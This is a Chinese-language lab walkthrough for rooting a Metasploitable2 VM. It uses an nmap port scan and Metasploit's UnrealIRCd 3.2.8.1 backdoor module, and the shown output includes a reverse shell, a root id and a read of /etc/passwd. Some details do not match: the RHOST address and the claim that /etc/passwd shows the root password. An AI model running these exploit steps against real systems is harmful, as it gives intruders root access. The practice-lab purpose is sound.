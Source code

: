 ## 使用metasploit利用ircd服务得到root权限

1. 需要准备metasploitable2的VM环境，它是基于ubuntu8.04版本。
2. 安装metasploit框架，这里我用的是kali发行版，主要难得去装这个环境，而且kali集成了很多工具。
3. 准备好后，启动metasploitable2和kali,登录kali上去更新一下metasploit。
```bash
[root@kali: ~#] msfupdate
```
4. 进入metasploitable2虚拟机,默认密码账号是msfadmin
```bash
#得到ip地址
msfadmin@metasploitable:~$ ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:cf:3a:19  
          inet addr:192.168.199.169  Bcast:192.168.199.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fecf:3a19/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:198973 errors:0 dropped:0 overruns:0 frame:0
          TX packets:200202 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:12035054 (11.4 MB)  TX bytes:12939094 (12.3 MB)
          Interrupt:19 Base address:0x2000 

```
5. 使用nmap扫描192.168.199.169开放的端口,为了方便加个host
```bash
#扫描端口
[root@kali: ~#] nmap -p 0-65535 192.168.199.169 
#会发现IRC服务的端口是开放的，下一步就是利用IRC服务
#ip地址不容易记住，使用hosts
[root@kali: ~#] echo "192.168.199.169 metasploitable2" >> /etc/hosts | tee -a
#测试下
[root@kali: ~#] ping metasploitable2
PING metasploitable2 (192.168.199.169) 56(84) bytes of data.
64 bytes from metasploitable2 (192.168.199.169): icmp_req=1 ttl=64 time=0.407 ms
...
```
6. 更新完成后启动msfconsole,加载ircd exploit
```bash
[root@kali: ~#] msfconsole
msf >
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
#查看选项
msf > show options
#设置RHOST，这里可以不用ip使用刚刚设置的hosts
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.99.131
#跟上面使用ip一样的
msf exploit(unreal_ircd_3281_backdoor) > set RHOST metasploitable2
RHOST => metasploitable2
msf exploit(unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse double handler
[*] Connected to metasploitable2:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Found your hostname
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo FZXI87Tr7vTfa98G;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "FZXI87Tr7vTfa98G\r\n"
[*] Matching...
[*] A is input...

#这里已经得到一个session了
id
uid=0(root) gid=0(root)

whoami
root

#查看root密码
cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash
```
